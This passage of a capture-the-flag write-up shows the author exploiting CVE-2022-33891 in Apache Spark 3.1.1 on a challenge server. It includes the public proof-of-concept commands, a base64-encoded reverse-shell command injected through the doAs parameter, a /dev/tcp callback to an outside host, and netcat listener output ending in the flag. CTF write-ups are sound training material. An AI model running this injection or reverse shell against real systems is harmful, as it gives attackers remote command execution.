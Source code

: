 Google : `spark 3.1.1 exploit`

```bash
git clone https://github.com/HuskyHacks/cve-2022-33891
cd cve-2022-33891
```

Target is vulnerable

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/fetch-the-flag-2023/Sparky/cve-2022-33891]
└─$ python poc.py -u http://challenge.ctf.games --check -p 30748
[*] Attempting to connect to site...
[!] Performing sleep test of 10 seconds...
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Since the result is time based, I'll use my VPS to get a reverse shell to save time (Or use [webhook](https://webhook.site/#!/00160a6a-1323-425c-be4a-b584629d0ee7){:target='_blank'} to receive the flag)

```bash
┌──(bravosec㉿fsociety)-[/media/…/ctf/fetch-the-flag-2023/Sparky/cve-2022-33891]
└─$ python poc.py -u http://challenge.ctf.games -p 30748 --revshell -lh dynasafe.mooo.com -lp 1111 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 1111
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/dynasafe.mooo.com/1111 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvZHluYXNhZmUubW9vby5jb20vMTExMSAwPiYx
[*] Full exploit request is: http://challenge.ctf.games:30748/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvZHluYXNhZmUubW9vby5jb20vMTExMSAwPiYx | base64 -d | bash`
[*] Sending exploit...
```

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.20.0.6] from (UNKNOWN) [34.122.40.66] 25604
sh: 0: can't access tty; job control turned off
$ id
uid=1001(spark) gid=0(spark) groups=0(spark)
$ cat /flag.txt
flag{1cf5f0f135914e5154a6fe20085b0b7a}
```


## Back the Hawks


### Information disclosure lead to invite code
